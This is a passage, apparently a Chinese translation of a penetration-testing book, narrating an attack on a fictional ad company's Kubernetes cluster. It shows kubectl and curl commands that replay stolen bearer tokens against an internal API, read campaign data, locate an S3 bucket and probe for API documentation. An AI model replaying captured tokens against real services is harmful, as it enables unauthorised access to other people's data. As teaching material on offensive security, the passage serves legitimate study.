 好的，我们有十多个在过去 12 小时内用于访问仪表盘应用及其扩展的 api-core Pod 的令牌。希望其中一些令牌仍然有效，并可以用于重放攻击。

我们可以通过 Kube 的自动 DNS 解析到达 `api-core` 服务名称后面的 Pod。或者，我们也可以随时直接提取其中一个 Pod 的 IP 地址，方法如下：

```
shell> **kubectl get pods -o wide | grep "api-core"**

NODE     ip-192-168-162-215.eu-west-1.compute.internal
POD      api-core-deployment-d34c-7qxm
PODIP    10.0.2.34
PORT     8080
```

我们重放了从审计索引中提取的随机 URL，并附上其授权令牌：

```
shell> **curl http://10.0.2.34/api/dashboard/campaign/1395412512 \**
**-H "Authorization: Bearer 8b35b04bebd34c1abb247f6baa5dae6c"**
{
   "progress": "0.3",
   "InsertionID": "12387642",
   "creative": "s4d.mxrads.com/7bcdfe206ed7c1159bb0152b7/...",1
   "capping": "40",
   "bidfactor": "10",
`--snip--`
```

我们成功了！虽然我们可能无法访问漂亮的仪表盘来可视化这些指标——至少目前还不能——但我们终于看到了一部分原始的活动数据。附加奖励：我们找到了广告中视频文件和图像的存储位置 1。让我们看一下这个 URL：

```
root@Point1:/# **getent -t hosts s4d.mxrads.com**
13.225.38.103   s4d.mxrads.com.s3.amazonaws.com
```

惊讶，惊讶，它重定向到了一个 S3 桶。我们尝试进入该桶，但遗憾的是，我们没有权限列出其中的内容，而且密钥看起来过于随机，无法暴力破解。也许 API 提供了一种按客户名称搜索的方式，来减轻我们的负担？

### API 探索

我们想在 API 中找到一个列出客户名称、视频和任何其他可能相关内容的方法。我们开始与 API 进行调试，发送无效的 ID 和随机的 URL 路径，并附上我们的有效令牌，希望能触发任何帮助信息或详细错误：

```
shell> **curl "http://10.0.2.34/api/randomPath" \**
**-H "Authorization: Bearer 8b35b04bebd34c1abb247f6baa5dae6c"**

{"level":"critical","message":"Path not found. Please refer to the docs
(/docs/v3) for more information"...
```

我们被引导到了一个文档 URL。对 */docs/v3* URL 发起的查询暴露了整个 API 文档：有哪些可用的端点、需要发送的参数、需要包含的头信息等等。真是太贴心了！

结果证明，我们的直觉并没有错：授权令牌确实与最终用户及其活动范围相关联。我们抓取的随机令牌不太可能有资格查看或编辑 Gretsch Politico 的活动（除非，当然，恰巧有一个活跃的 GP 用户或管理员当前正在与 api-core Pod 通信——不过，拜托，我们都知道圣诞节还得等好几个月）。

文档明确表示，api-core 端点是 MXR Ads 使用的每个交付应用程序的入口点。它是他们的主要数据库抽象层。它从多个数据源汇总业务信息，并提供交付过程的统一概览。
